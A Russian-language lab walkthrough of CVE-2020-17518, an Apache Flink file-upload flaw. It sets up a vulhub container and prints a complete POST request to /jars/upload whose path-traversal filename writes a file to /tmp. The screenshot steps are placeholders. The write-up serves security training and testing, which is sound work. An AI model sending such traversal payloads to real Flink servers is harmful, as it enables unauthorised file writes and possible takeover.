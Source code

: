 # CVE-2020-17518

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-17518](https://nvd.nist.gov/vuln/detail/CVE-2020-17518)
* [https://www.opencve.io/cve/CVE-2020-17518](https://www.opencve.io/cve/CVE-2020-17518)
* [https://www.programmersought.com/article/236511184567/](https://www.programmersought.com/article/236511184567/)

Apache Flink - это фреймворк для обработки потоков с открытым исходным кодом, обладающий мощными возможностями потоковой и пакетной обработки.

В Apache Flink 1.5.1 появился REST-обработчик, позволяющий записать загруженный файл в произвольное место локальной файловой системы через злонамеренно измененный HTTP HEADER.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/flink/CVE-2020-17518

Для запуска узявимой среды выполните команду

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8081 будет доступна домашняя страница Apache Flink

\---- скрин web ----

Для эсплуатации уязвимости отправьте соответствующий POST-запрос:

```
POST /jars/upload HTTP/1.1
Host: ваш-ip:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

\---- скрин отправки запроса в burp ----

После его отправки будет на машине будет создан файл /tmp/success

\---- скрин создания файла ----

вазух&#x20;

\---- скрин вазух ----
